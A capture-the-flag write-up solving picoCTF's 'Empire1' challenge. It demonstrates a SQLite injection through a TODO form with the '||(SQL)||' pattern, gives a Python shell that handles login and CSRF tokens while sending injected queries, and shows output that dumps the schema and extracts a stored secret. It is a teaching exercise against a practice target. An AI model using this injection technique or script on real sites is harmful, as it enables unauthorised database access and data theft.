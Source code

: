 # Empire1
Web Exploitation, 400 points

## Description:
> Psst, Agent 513, now that you're an employee of Evil Empire Co., try to get their secrets off the company website. https://2019shell1.picoctf.com/problem/45012/ Can you first find the secret code they assigned to you?


## Solution: 

The attached website provides registration and login pages, which do not seem to contain any vulnerabilities.

After registering and signing in, the service allows submitting a TODO via the following form:

```html
<form action="" method="post"
  class="form" role="form">
  <input id="csrf_token" name="csrf_token" type="hidden" value="IjI0ZjFiNTQ2ZmZiY2Q0ZTkzYzBlYTE4NWZmZjg5ZWFiNmVkMGM2ZDgi.XaDrHw.j2B7AzusTP7lPFthEkrCXCp-2qM">
  <div class="form-group  required"><label class="control-label" for="item">Todo?</label>
    <input class="form-control" id="item" name="item" required type="text" value="">      
  </div>
  <input class="btn btn-default" id="submit" name="submit" type="submit" value="Create">
</form>
```

The result is later available on another page, for example:
```html
<h1 class="page-header">Things You Gotta Do</h1>
<ul class="list-unstyled">
    <div class="row">
        <div class="col-md-6">
            <div class="well well-sm">
                <li>
                <strong>Very Urgent:</strong> Test
                </li> 
            </div>
        </div>
    </div>
</ul>
```

The "Very Urgent:" prefix is automatically prepended to any text provided by the user.

After trying different strategies, I found that the page is vulnerable to SQL injection using the following syntax:
```
'||(SQL)||'
```

For example:
```
'||(select tbl_name FROM sqlite_master WHERE type='table' limit 0,1 COLLATE NOCASE)||'
```

Using the following interactive shell, it is possible to test different SQL queries and see the result:

```python
import re
import html
import requests
from cmd import Cmd
from bs4 import BeautifulSoup

class Empire1(object):
    BASE_URL = "https://2019shell1.picoctf.com/problem/45012"
    
    def __init__(self):
        self.session = requests.Session() 
        
    def login(self, username, password):
        text = self.post(self.BASE_URL + "/login", {"username": username, "password": password})
        if "Invalid username or password" in text:
            raise Exception("Can't login")

    def post(self, uri, data):
        r = self.session.get(uri, headers = {"Referer": uri})
        csrf = self.get_csrf_token(r.text)
        d = {"csrf_token": csrf}
        d.update(data)
        r = self.session.post(uri, data = d, allow_redirects = True, headers = {"Referer": uri})
        if r.status_code != 200:
            raise Exception("Can't post to '{}'".format(uri))
        return r.text

    def add_item(self, item):
        text = self.post(self.BASE_URL + "/add_item", {"item": item})
        if "Item Added" not in text:
            raise Exception("Can't add item '{}'".format(item))

    def get_last_item(self):
        r = self.session.get(self.BASE_URL + "/list_items")
        parsed_html = BeautifulSoup(r.text, "lxml")
        return parsed_html.body.find_all('div', attrs={'class':'well well-sm'})[-1].findChildren("li" , recursive=False)[0].get_text().replace("Very Urgent: ", "")


    def get_csrf_token(self, html):
        token = re.search(r'<input id="csrf_token" name="csrf_token" type="hidden" value="([^"]+)">', html, re.MULTILINE)
        if token is None:
            raise Exception("Can't find CSRF token")
        return token.group(1)

class MyPrompt(Cmd):
    def __init__(self):
        Cmd.__init__(self)
        self.site = Empire1()
        self.site.login("user", "password")
        print "Logged in"

    def do_exit(self, inp):
        return True
 
    def do_send(self, param):
        q = "'||({})||'".format(param)
        self.site.add_item(q)
        print self.site.get_last_item()
 
MyPrompt().cmdloop()
```

The script assumes that we've already registered with the `user:password` credentials. It also requires prepending the command `send` to each SQL command, in order to trigger `do_send`.

The DB used for this website is SQLite. We first leak the tables and table structure using `sqlite_master`, then we search for the flag within the DB.

```console
root@kali:/media/sf_CTFs/pico/Empire1# python shell.py
Logged in
(Cmd) send select tbl_name FROM sqlite_master WHERE type='table' limit 0,1 COLLATE NOCASE

user

(Cmd) send select tbl_name FROM sqlite_master WHERE type='table' limit 1,1 COLLATE NOCASE

todo

(Cmd) send select tbl_name FROM sqlite_master WHERE type='table' limit 2,1 COLLATE NOCASE

None

(Cmd) send select sql FROM sqlite_master WHERE type='table' limit 0,1 COLLATE NOCASE

CREATE TABLE user (
        id INTEGER NOT NULL,
        username VARCHAR(64),
        name VARCHAR(128),
        password_hash VARCHAR(128),
        secret VARCHAR(128),
        admin INTEGER,
        PRIMARY KEY (id)
)

(Cmd) send select sql FROM sqlite_master WHERE type='table' limit 1,1 COLLATE NOCASE

CREATE TABLE todo (
        id INTEGER NOT NULL,
        item VARCHAR(256),
        user_id INTEGER,
        PRIMARY KEY (id),
        FOREIGN KEY(user_id) REFERENCES user (id)
)

(Cmd) send select item FROM todo where item like '%picoCTF%' limit 0,1 COLLATE NOCASE

None

(Cmd) send select secret FROM user where secret like '%picoCTF%' limit 0,1 COLLATE NOCASE

picoCTF{wh00t_it_a_sql_injecta60643ae}

(Cmd) exit
```

